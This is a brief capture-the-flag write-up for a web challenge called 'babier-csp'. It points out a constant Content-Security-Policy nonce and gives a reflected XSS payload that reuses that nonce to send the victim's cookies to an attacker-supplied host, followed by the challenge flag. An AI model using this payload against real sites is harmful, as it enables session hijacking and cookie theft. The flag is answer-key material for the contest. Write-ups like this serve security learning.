 **Challenge:** https://babier-csp.dicec.tf/ | https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp

**Source code:** https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/

Nonce is a constant: `LRGWAXOY98Es0zz0QOVmag==`

Payload:
```html
https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>window.location="<Your host>"+document.cookie</script>
```

**Note:** Don't forget to make URL encode to avoid errors.

**Flag:** dice{web_1s_a_stat3_0f_grac3_857720}
